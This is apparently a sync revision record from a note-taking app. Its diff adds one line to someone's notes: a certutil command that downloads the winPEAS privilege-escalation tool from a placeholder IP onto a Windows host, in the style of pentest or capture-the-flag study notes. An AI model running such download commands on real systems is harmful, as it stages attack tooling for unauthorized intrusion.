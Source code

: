 id: 6b7b591377da41fbb0ce8a9a88672933
parent_id: ad5ee5cff1c0490585d44d06047129fa
item_type: 1
item_id: 7fcb789b143c4fdead546ced081886f7
item_updated_time: 1659882678042
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\".exe\\\" winPEASany.exe\"],[1,\"\\\n> \\\n> certutil -urlcache -split -f \\\"http://x.x.x.x/winPEASany.exe\\\" winPEASany.exe\"]],\"start1\":580,\"start2\":580,\"length1\":20,\"length2\":101}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-08-07T14:31:41.451Z
created_time: 2022-08-07T14:31:41.451Z
type_: 13
